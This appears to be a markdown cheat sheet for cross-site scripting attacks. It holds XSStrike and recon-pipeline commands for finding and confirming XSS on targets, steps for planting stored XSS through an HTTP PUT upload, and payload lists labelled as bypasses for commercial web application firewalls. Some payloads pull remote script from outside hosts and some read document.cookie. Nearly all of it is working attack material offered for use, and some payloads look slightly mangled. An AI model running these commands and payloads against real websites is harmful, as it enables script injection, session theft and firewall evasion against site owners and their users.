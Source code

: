 # XSS Automation and testing notes

## case (1): Using xsstrike

```bash
python3 xsstrike.py -u "http://example.com/page?param=value"
python3 xsstrike.py -u "http://test.com/page?name=WillFuzzHereOnly&id=1" --params name
python3 xsstrike.py -u "http://test.com/login" --data "username=admin&password=123"
python3 xsstrike.py -u "http://test.com/search?q=test" --headers "User-Agent: XSStrikeBot, Authorization: Bearer test123"
python3 xsstrike.py -u "http://vulnerable.com/contact" --blind
python3 xsstrike.py -u "http://slowhost.com/page?input=123" --timeout 10
python3 xsstrike.py -u "http://target.com" --depth 3
```

**options:**
- `-u`: url to scan  
- `--params`: specify parameters to fuzz  
- `--data`: use post method and send data  
- `--headers`: add custom headers to each http request  
- `--blind`: test for blind xss  
- `--timeout`: set request timeout (waits up to 10 seconds)  
- `--depth`: set recursion depth for crawling  

---

## case (2): Recon and xss testing automation

```bash
# filter subdomains
httpx -l subs.txt -o httpx.txt
cat subs.txt | httprobe > httprobe.txt
cat subs.txt | httprobe -prefer-https | sort -u > httprobe.txt

# collect endpoints
echo "target.com" | gau --threads 5 > endpoints.txt
cat httpx.txt | katana -jc >> endpoints.txt
cat httpx.txt | waybackurls >> endpoints.txt

# filter unique urls
cat endpoints.txt | uro > unique_endpoints.txt

# extract xss-relevant urls
cat unique_endpoints.txt | gf xss > xss.txt

# find reflected xss
cat xss.txt | gxss -p khXSS -o reflected_xss.txt

# test reflected xss
dalfox file reflected_xss.txt -o vulnerable_xss.txt
```

**Notes:**
- `gxss` identifies reflected params by injecting and checking response
- `dalfox` is used for active testing and confirmation
- `uro` helps remove duplicated or similar urls
- `gf` filters urls by vulnerability patterns

---

## case (3): Exploiting put method to store xss

steps:
1. use `options` method to see allowed http methods  
2. find `put` allowed on endpoint `/file.html`  
3. upload using put with `content-type: application/octet-stream` and body like:
```html
<html><script>confirm()</script></html>
```
4. Visit the file and observe stored xss being executed

---

## Payloads for different web application firewalls

-------------------------------------------------------------------------
| angularjs | akamai | cloudfront | cloudflare | imperva | mod_security |
|-----------|--------|------------|------------|---------|--------------|

**XSS in email address:**
```
test+(<script>alert(1337)</script>)@example.com
test@example(<script>alert(1337)</script>).com
"<script>alert(1337)</script>@example.com
```

**XSS in phone number:**
```
+441134960000;phone-context=<script>alert(1337)</script>
```

**Regex filter bypass:**
```html
<script>top </script>
<img src="X" onerror=top >
```

**Angularjs 1.2.24-1.2.29:**
```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**Akamai:**
```html
';k='e'%0Atop //'"><A HRef=\" AutoFocus OnFocus=top/**/?. >
<A HRef=//site.com AutoFocas %26%2362 OnFocus%0C=import(href)>
```

**Cloudflare:**
```html
<svg/onload=window["al"+"ert"]`1337`>
<Img Src=OnXSS OnError=confirm(1337)>
<Svg Only=1 OnLoad=confirm(document.domain)>
<svg onload=alert&#0000000040document.cookie)>
<sVG/oNlY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>
%3CSVG/oNLY=1%20ONlOAD=confirm(document.domain)%3E
<Img Src=//X55.is OnLoad%0C=import(Src)>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>
<A HRef=//site.com AutoFocas %26%2362 OnFocus%0C=import(href)>
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
&lt;img longdesc="src='x'onerror=alert(document.domain);//&gt;&lt;img " src='showme'&gt;
```

**Cloudfront:**
```html
">'><details/open/ontoggle=confirm('XSS')>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E
';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(1337)//'>
```

**Mod_security:**
```html
<svg onload='new Function`["Y000!"].find(al\u0065rt)`'>
```

**Imperva:**
```html
<Img Src=//X55.is OnLoad%0C=import(Src)>
<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>
<A HRef=//site.com AutoFocas %26%2362 OnFocus%0C=import(href)>
```
